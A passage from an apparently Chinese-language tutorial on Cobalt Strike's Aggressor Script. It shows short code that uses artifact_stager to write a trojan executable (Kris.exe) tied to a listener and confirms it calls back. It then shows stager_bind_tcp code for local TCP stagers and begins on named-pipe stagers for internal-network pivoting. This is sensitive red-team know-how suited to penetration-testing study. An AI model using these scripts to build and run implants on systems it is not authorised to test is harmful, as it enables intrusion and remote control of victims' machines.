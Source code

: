 我们使用 artifact_stager进行生成：

```shell
$data = artifact_stager("Tencent", "exe", "x64"); #选择监听器、生成类型、位数

$handle = openf(">Kris.exe"); # 生成的路径，这里是在当前执行的路径下
writeb($handle, $data); # 写入
closef($handle); # 关闭写入，不关闭会一直卡住	
```

我们执行:

![image-20201214145716511](/images/Aggressor-Script/image-20201214145716511.png)

然后运行这个木马，看看是否可以上线：

![image-20201214145811630](/images/Aggressor-Script/image-20201214145811630.png)

可以上线，在GUI中也是使用的这个 数据模型 创建。



## Local Stagers

> 本地的Stager信息

我们上面提到了监听器的信息有 本地监听器和云端监听器，那么对于本地的正向链接的 TCP Listener 我们就可以使用 stager_bind_tcp 这个数据模型来查看，这个数据模型只能查看 TCP 类型的 Stager，他需要接受三个参数：

`$1` 我们创建的 TCP 监听名字

`$2` 监听器的位数

 `$3` 监听器的链接端口



我们使用下面的代码查看一下我们的 TCP stager信息：

```shell
$TcpStager = stager_bind_tcp("你的TCP监听器名称","位数","bind to 端口");
elog($TcpStager);
```

![image-20201215142818777](/images/Aggressor-Script/image-20201215142818777.png)

![image-20201215142751398](/images/Aggressor-Script/image-20201215142751398.png)

实测加了端口也没有变化：

![image-20201215142952923](/images/Aggressor-Script/image-20201215142952923.png)





## Named Pipe Stager

Pipe Stager是内网渗透中，用于不能出网的主机的一种加载器，他只有 X86 的选择，我们可以使用 stager_bind_pipe 数据模型导出对应的 SMB 监听，他需要接受的参数如下：
